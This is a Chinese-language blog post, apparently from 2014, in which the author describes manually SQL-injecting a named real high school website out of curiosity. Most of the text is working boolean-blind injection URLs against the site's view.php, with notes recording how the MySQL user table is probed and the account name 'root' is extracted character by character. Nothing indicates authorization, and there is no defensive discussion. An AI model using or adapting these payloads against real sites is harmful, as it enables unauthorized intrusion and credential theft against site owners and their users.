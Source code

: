 ```yaml
---
layout: default
title: SQL注入过程
author: 李佶澳
createdate: 2014/05/29 13:26:04
last_modified_at: 2017/10/28 12:34:31
categories: 技巧
tags: security
keywords: sql注入,安全漏洞
description: 好奇. 搜索到几个注入点后, 尝试手动注入了下.

---
```


## 目录
* auto-gen TOC:
{:toc}

## 摘要

好奇. 搜索到几个注入点后, 尝试手动注入了下. 

## 某高中注入点

	http://www.dyyz.net.cn/celebrate/view.php?id=1022%20and%20(select%20count(*)%20from%20mysql.user)=1

	mysql.user中只有一个用户

	http://www.dyyz.net.cn/celebrate/view.php?id=1022%20and%20(select%20count(*)%20from%20mysql.user%20where%20length(user)%20%20=%204)%20%3E0

	用户名长度是4个字符,肯定是root..

	http://www.dyyz.net.cn/celebrate/view.php?id=1022%20and%20(select%20count(*)%20from%20mysql.user%20where%20%20(ascii(substring(user,1,1)))=114)=1

	第一个字母是r

	http://www.dyyz.net.cn/celebrate/view.php?id=1022%20and%20(select%20count(*)%20from%20mysql.user%20where%20%20(ascii(substring(user,2,1)))=111)=1

	第二个字母是o

	http://www.dyyz.net.cn/celebrate/view.php?id=1022%20and%20(select%20count(*)%20from%20mysql.user%20where%20%20(ascii(substring(user,3,1)))=111)=1

	第三个字母是o

	http://www.dyyz.net.cn/celebrate/view.php?id=1022%20and%20(select%20count(*)%20from%20mysql.user%20where%20%20(ascii(substring(user,4,1)))=116)=1

	第四个字母是t

	http://www.dyyz.net.cn/celebrate/view.php?id=1022%20and%20(select%20count(*)%20from%20mysql.user%20where%20%20user=0x726f6f74)=1
